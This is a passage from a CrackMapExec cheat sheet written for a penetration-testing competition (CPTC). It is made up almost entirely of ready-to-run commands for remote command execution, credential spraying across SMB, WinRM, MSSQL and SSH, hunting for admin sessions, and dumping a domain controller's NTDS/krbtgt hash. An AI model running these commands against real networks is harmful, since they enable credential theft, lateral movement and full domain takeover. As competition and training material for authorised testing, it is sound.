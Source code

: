 ### Execution Method Failures
```bash
# Try alternative exec methods
crackmapexec smb 10.10.10.50 -u 'admin' -p 'pass' --exec-method smbexec -x 'whoami'
crackmapexec smb 10.10.10.50 -u 'admin' -p 'pass' --exec-method wmiexec -x 'whoami'
crackmapexec smb 10.10.10.50 -u 'admin' -p 'pass' --exec-method atexec -x 'whoami'
crackmapexec smb 10.10.10.50 -u 'admin' -p 'pass' --exec-method mmcexec -x 'whoami'
```

---

## Advanced CPTC Tips & Tricks

### 1. Automate Target Prioritization
```bash
# Create high-value target list
crackmapexec smb 10.10.10.0/24 -u 'user' -p 'pass' --loggedon-users | \
  grep -i "admin\|backup\|sql\|service" > priority_targets.txt
```

### 2. Credential Combo Testing
```bash
# Found creds? Test everywhere immediately
found_user="jsmith"
found_pass="Summer2024!"
crackmapexec smb targets.txt -u "$found_user" -p "$found_pass" --continue-on-success
crackmapexec winrm targets.txt -u "$found_user" -p "$found_pass" --continue-on-success
crackmapexec mssql targets.txt -u "$found_user" -p "$found_pass" --continue-on-success
crackmapexec ssh targets.txt -u "$found_user" -p "$found_pass" --continue-on-success
```

### 3. Quick Domain Compromise Check
```bash
# One-liner to check if you have DC access
crackmapexec smb <DC-IP> -u 'found_user' -p 'found_pass' --ntds --just-dc-user krbtgt
# If this works, domain is fully compromised
```

### 4. Reporting Shortcuts
```bash
# Generate quick stats for report
echo "=== Compromised Hosts ===" > report_data.txt
grep "Pwn3d" ~/.cme/logs/*.log | wc -l >> report_data.txt
echo "=== Valid Credentials ===" >> report_data.txt
cmedb export | grep -i "credential" >> report_data.txt
```

### 5. Time Savers
```bash
# Alias common commands
alias cme='crackmapexec'
alias cme-shares='crackmapexec smb $1 -u $2 -p $3 --shares'
alias cme-spray='crackmapexec smb $1 -u users.txt -p $2 --continue-on-success'

# Save successful credentials immediately
echo "user:pass:10.10.10.50:admin" >> working_creds.txt
```

---